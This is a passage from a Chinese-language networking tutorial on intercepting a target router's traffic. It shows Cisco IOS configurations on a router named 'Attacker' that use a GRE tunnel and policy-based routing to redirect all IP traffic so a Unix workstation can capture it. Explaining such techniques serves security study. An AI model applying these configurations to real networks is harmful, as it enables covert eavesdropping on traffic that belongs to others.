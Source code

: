 到这一步,两台路由器间的GRE隧道已经建立了,不管这两台路由器间在互联网间相隔多少跳路由,GRE隧道都只认为经过了一跳路由。

场景1中的策略路由配置

在场景1中(见图1),我们在中间路由器tunnel0的接口上建立策略路由,并通过GRE隧道向目标路由器“反射”流量。

中间路由器操作:

```
Attacker#conf t
Attacker(config)#access-list 100 permit ip any any
Attacker(config)#route-map reflect
Attacker(config-route-map)#match ip address 100
Attacker(config-route-map)#set ip next-hop 192.168.5.1
Attacker(config-route-map)#exit
Attacker(config)#int tunnel0
Attacker(config-if)#ip policy route-map reflect
Attacker(config-if)#exit
Attacker(config)#exit
Attacker#
```

访问控制列表100(acl100)匹配所有IP协议流量,route map策略抓取了所有匹配访问控制列表100的流量,然后发往192.168.5.1,也就是目标路由器上终结GRE隧道的地址。这条route map策略在tunnel0接口上应用。

这样配置的结果就是,所有通过tunnel0接口到达中间路由器的流量,随后会通过tunnel接口(即tunnel隧道)返回给目标路由器。

**场景1中的Unix工作站初始化**

在场景1中,攻击者的Unix工作站在外部署在中间路由器的外部接口中,在这个实例中,Unix工作站的IP地址可以配置或不配置,因为工作站只需要被动地捕获网络流量。

**场景2中的策略路由配置**

在第二个场景中,我们在中间路由器tunnel接口上和在与Unix工作站互联的内网接口上建立了策略路由,来“反射”通过GRE隧道及Unix工作站内网接口传来的流量。

中间路由器操作:

```
Attacker#conf t
Attacker(config)#access-list 100 permit ip any any
Attacker(config)#route-map send-traffic-in
Attacker(config-route-map)#match ip address 100
Attacker(config-route-map)#set ip next-hop 192.168.3.2
Attacker(config-route-map)#exit
Attacker(config)#int tunnel0
Attacker(config-if)#ip policy route-map send-traffic-in
Attacker(config-if)#exit
Attacker(config)#route-map send-traffic-out
Attacker(config-route-map)#match ip address 100
Attacker(config-route-map)#set ip next-hop 192.168.5.1
Attacker(config-route-map)#exit
Attacker(config)#int eth0/0
Attacker(config-if)#ip policy route-map send-traffic-out
Attacker(config-if)#exit
Attacker(config)#exit
Attacker#
```
